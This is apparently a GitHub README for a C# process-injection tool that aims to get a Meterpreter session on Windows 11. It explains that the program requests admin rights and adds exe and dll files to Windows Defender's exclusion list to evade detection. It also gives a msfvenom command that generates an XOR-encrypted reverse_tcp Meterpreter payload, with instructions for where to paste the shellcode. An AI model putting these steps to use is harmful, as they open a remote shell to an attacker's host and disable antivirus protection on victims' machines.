 # get-meterpreter-on-windows 11

for information visit https://youtu.be/HrBr6uKGCxs and watch my video

this is a csharp program to inject xor encrypted shellcode into a new process
this is a modified code(the original code is from https://github.com/chr0n1k/AH2021Workshop/blob/master/Labs/Lab4:%20Simple%20process%20injection/program1.cs) that asks for admin rights at program startup and the adds exe and dll files to the exclusion list of windows defender to get a fully functional meterpreter session without have to worry about uploading stages won't work.

to generate shellcode use:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IPADRESS> lport=<PORTNUMBER> -f csharp --encrytp xor --encryptkey ARICAHACKON



replace bytesize and shellcode in line 162:

byte[] xorshellcode = new byte[<YOUR BYTESIZE HERE>] {<YOUR SHELLCODE HERE>};
